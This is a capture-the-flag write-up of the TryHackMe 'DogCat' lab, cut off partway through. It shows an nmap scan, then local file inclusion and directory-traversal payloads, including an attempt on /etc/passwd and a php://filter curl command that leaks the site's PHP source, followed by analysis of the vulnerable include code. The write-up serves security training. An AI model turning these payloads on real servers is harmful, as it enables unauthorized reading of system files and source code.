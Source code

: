 ```yaml
---
title: TryHackMe - DogCat
description: My writeup on DogCat box.
categories:
 - tryhackme
tags: tryhackme
---
```


![](https://i.imgur.com/otcW2ZH.png)

## Box Stats

| Box Info      | Details       |
| ------------- |:-------------:|
| Box Name :    | **DogCat**  |
| Difficulty :  | **Medium**             |
| Play :    | [DogCat](https://tryhackme.com/room/dogcat){:target="_blank"}      |
| Recommended : | Yes :heavy_check_mark:      |

## Summary

Let's start!

## Enumeration/Reconnaissance

Now as always let’s continue with a nmap scan.

```
$ ip=10.10.157.103
$ nmap -sC -sV -oN nmap/dogcat.thm $ip
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-30 22:20 EET
Nmap scan report for 10.10.157.103 (10.10.157.103)
Host is up (0.15s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
```

Once we visit the website, we can see 2 buttons `A dog` & `A cat`.

![](https://i.imgur.com/DuBz9Wy.png)

We click a random one and we can see the URL goes like that `?view=dog`, that's probably LFI. LFI (Local File Inclusion) allow us to read files on the victim machine. The most common way to test that is by using the `/etc/passwd` file. Let's try it.

`http://$ip/?view=/etc/passwd` -> This gives an error `Sorry, only dogs or cats are allowed.` Let's try to add dog or cat in the URL.

`http://$ip/?view=dog/etc/passwd` -> This gives an error `Warning: include(dog/etc/passwd.php)` We can see it adds `.php` in all files, we can't ready `/etc/passwd` but we can read the `index.php` source code! When we have LFI we can’t read php files because they get executed by the webserver. So we will do a trick to bypass that using base64.

Also here we have to apply a directory traversal attack `../`

```
$ curl -s "http://$ip/?view=php://filter/convert.base64-encode/resource=dog../../index"
PCFET0NUWVBF..data...go8L2h0bWw+Cg==
```

After we decode it we have the source code:

```php
function containsStr($str, $substr) {
        return strpos($str, $substr) !== false;
      }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
```

Now we have to do source code analysis. The most important thing in the source code is this variable:

```php
$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
```
